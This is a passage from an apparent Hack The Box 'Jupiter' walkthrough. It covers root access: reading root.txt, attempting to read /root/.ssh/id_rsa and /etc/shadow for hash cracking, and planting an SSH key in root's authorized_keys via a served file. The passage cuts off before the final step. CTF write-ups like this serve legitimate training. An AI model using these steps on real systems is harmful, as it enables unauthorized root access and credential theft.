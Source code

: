 Now the content of `/root/root.txt` should be inside the `/tmp/tle/` directory: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-19 02_21_04-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>root flag</i></center>
<br/>


> **NOTE**: *I tried to retrieve the SSH private key of the root user `/root/.ssh/id_rsa`, but from the output below, it's safe to assume that the file does not exist.* 

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-19 02_34_02-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>/root/.ssh/id_rsa</i></center>
<br/>

With this vulnerability, we can read any files on the server, including the `/etc/shadow` file. We can then attempt to crack the root password hash and if successful, we can gain access via SSH as the root. <br/>

### **<strong><font color="DarkKhaki">SSH Access as root</font></strong>**

In order to gain an SSH access as root on this box, we can write our own SSH public key into the `/root/.ssh/authorized_keys` file and then SSH as root using the private key. <br/>
To do so, we can follow the steps below:

**1-** Generate an SSH keys using `ssh-keygen`: <br/>
```bash
$ ssh-keygen 
```

**2-** Save the public key `id_rsa.pub` into a file called `authorized_keys` <br/>
```bash
$ mv id_rsa.pub authorized_keys
```

**3-** Start an HTTP server serving the `authorized_keys` file <br/>
```bash
$ python3 -m http.sevrer 80
```

**4-** Go back to the target machine, and modify the `/tmp/config.json` file as shown below: <br/>
